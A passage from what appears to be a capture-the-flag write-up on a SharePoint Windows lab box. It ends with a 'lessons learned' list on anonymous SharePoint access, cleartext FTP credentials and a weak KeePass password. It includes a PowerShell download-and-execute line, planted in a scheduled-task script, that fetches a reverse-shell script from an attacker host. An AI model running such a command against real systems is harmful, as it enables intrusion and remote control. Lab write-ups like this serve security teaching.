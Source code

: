 ```text
echo "iex(new-object net.webclient).downloadstring('http://10.10.14.45:5555/shell-2.ps1')" > SPBestWarmUp.ps1
```

Wait until the scheduled task is run. We get a shell!

![](../images/max/901/1*5VuG4fsW-3DcYD31oS0LBA.png)

We can view the scheduled tasks using the following command.

![](../images/max/1023/1*CNNcK2VOqUtfSLuGUUM2MQ.png)

Grab the _root.txt_ flag.

![](../images/max/733/1*CQ16DjQEFO-h94xSRQdojg.png)

## Lessons Learned <a id="712a"></a>

To gain an initial foothold on the box we exploited four vulnerabilities.

1. Insecure SharePoint permissions. An anonymous user was allowed to access SharePoint content. We used that to our advantage to enumerate site pages and documents on SharePoint. The administrator should have secured/restricted external anonymous access, especially when it is a public facing website.
2. Cleartext FTP credentials. After enumerating the content saved on SharePoint, we found a document that contains an FTP password and a site page that contains the username that corresponded to the password. We then used these credentials to log into the FTP server. Sensitive information should not be stored in cleartext and permission restrictions should be put in place that prevent an unauthorized user from accessing files that contain sensitive information.
3. Weak authentication credentials. After logging into the FTP server, we found a KeePass database that was protected with a weak password. Clearly, the user is security-aware and therefore is using a KeePass database to store his passwords. However, the password to the database was not strong enough and therefore we were able to crack it in a matter of seconds and gain access to all the other passwords that the user had stored in the database. The user should have used a strong password that is difficult to crack.